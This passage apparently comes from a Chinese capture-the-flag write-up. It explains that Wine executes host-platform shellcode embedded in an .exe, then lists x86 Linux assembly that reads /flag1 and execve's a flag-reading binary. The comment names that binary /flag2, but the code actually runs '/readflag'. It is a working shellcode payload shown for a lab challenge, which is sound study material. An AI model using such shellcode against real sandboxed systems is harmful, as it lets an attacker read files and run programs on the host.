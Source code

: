 所以wine运行exe时，如果exe中有目标为`宿主机平台`的shellcode，是可以直接执行的！

编写如下的汇编代码，主要作用是读取文件`/flag1`获得flag1，然后调用execve系统调用，execve `/flag2`获得flag2。

```
global _start
_start:
; flag1
    sub esp, 0xff
    mov eax, 0x616c662f
    mov [esp], eax
    mov eax, 0x00003167
    mov [esp+4], eax

    mov eax, 0x5    ; open
    xor ecx, ecx    ; flags
    xor edx, edx    ; mode
    mov ebx, esp    ; filename
    int 0x80
    add esp, 0xff

    mov ebx, eax    ; fd
    mov eax, 0x3    ; read
    mov edx, 0xFF   ; count
    sub esp, 0xff   ; buffer
    mov ecx, esp
    int 0x80

    mov edx, eax    ; count
    mov eax, 0x4    ; write 
    mov ebx, 0x2    ; fd
    mov ecx, esp    ; buffer
    int 0x80
    add esp, 0xff

; flag2
    sub esp, 0xff
    mov eax, 0x6165722f
    mov [esp], eax
    mov eax, 0x616c6664
    mov [esp+4], eax
    mov eax, 0x00000067
    mov [esp+8], eax

    mov eax, 0xb    ; execve 
    mov ebx, esp    ; filename
    xor ecx, ecx    ; argv
    xor edx, edx    ; envp
    int 0x80
    add esp, 0xff

    ret
```
